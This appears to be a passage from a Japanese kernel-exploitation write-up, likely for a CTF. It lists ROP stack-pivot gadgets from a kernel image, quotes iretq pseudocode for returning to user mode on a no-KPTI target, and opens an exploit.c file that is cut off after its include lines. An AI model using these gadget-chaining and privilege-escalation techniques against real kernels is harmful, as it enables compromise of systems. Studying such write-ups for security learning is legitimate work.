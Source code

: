 ```sp_gad.sh
0xffffffff81dec325: mov esp, 0x131D832C ; ret  ;  (1 found)
0xffffffff81e3d509: mov esp, 0x144714DE ; ret  ;  (1 found)
0xffffffff81e55754: mov esp, 0x15CE2A03 ; ret  ;  (1 found)
0xffffffff81dff9cc: mov esp, 0x15FF851B ; retn 0x7EB1 ;  (1 found)
0xffffffff81dd79b7: mov esp, 0x167C22B7 ; retn 0x9847 ;  (2 found)
0xffffffff81dc56bb: mov esp, 0x1BD15533 ; call rcx ;  (1 found)
(snipped...)
```


あとはいい感じにchainを組む。今回はno-KPTI。*iretq*は[以下の通り](https://www.felixcloutier.com/x86/iret:iretd)。
```iretq.c
PROTECTED-MODE:
    IF NT = 1
        THEN GOTO TASK-RETURN; (* PE = 1, VM = 0, NT = 1 *)
    FI;
    IF OperandSize = 32
        THEN
                EIP ← Pop();
                CS ← Pop(); (* 32-bit pop, high-order 16 bits discarded *)
                tempEFLAGS ← Pop();
        ELSE (* OperandSize = 16 *)
                EIP ← Pop(); (* 16-bit pop; clear upper bits *)
                CS ← Pop(); (* 16-bit pop *)
                tempEFLAGS ← Pop(); (* 16-bit pop; clear upper bits *)
    FI;
    IF tempEFLAGS(VM) = 1 and CPL = 0
        THEN GOTO RETURN-TO-VIRTUAL-8086-MODE;
        ELSE GOTO PROTECTED-MODE-RETURN;
    FI;
TASK-RETURN: (* PE = 1, VM = 0, NT = 1 *)
    SWITCH-TASKS (without nesting) to TSS specified in link field of current TSS;
    Mark the task just abandoned as NOT BUSY;
    IF EIP is not within CS limit
        THEN #GP(0); FI;
END;
```

# exploit
```exploit.c
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <assert.h>
#include <stdlib.h>
#include <signal.h>
#include <poll.h>
#include <pthread.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/userfaultfd.h>
#include <linux/prctl.h>
#include <sys/syscall.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
```
